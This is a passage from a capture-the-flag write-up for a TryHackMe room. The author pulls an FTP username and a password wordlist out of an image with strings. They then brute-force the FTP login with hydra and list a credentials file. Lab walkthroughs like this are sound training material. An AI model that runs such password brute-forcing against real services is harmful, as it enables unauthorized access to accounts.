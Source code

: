 Hot_Babe.png is a picture of what appears to be a lady (I never know anymore).  This stinks of steganography.

Running `exiftool` on it gives us nothing.

Running `steghide` informs us that the format is not supported.

Running `strings` gets us the ftpusername and a wordlist of possible passwords.

```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?

...lots more...
```

---
## Back to FTP

Let's copy the passwords into a wordlist and run `hydra`.

```
┌──(kali㉿kali)-[~/tryhackme/yearoftherabbit]
└─$ hydra -l ftpuser -P hotstrings.txt 10.10.140.107 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-21 10:25:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.140.107:21/
[21][ftp] host: 10.10.140.107   login: ftpuser   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-21 10:25:30
```

Now let's look at FTP.

```
┌──(kali㉿kali)-[~/tryhackme/yearoftherabbit]
└─$ ftp 10.10.140.107   
Connected to 10.10.140.107.
220 (vsFTPd 3.0.2)
Name (10.10.140.107:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||55039|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
```
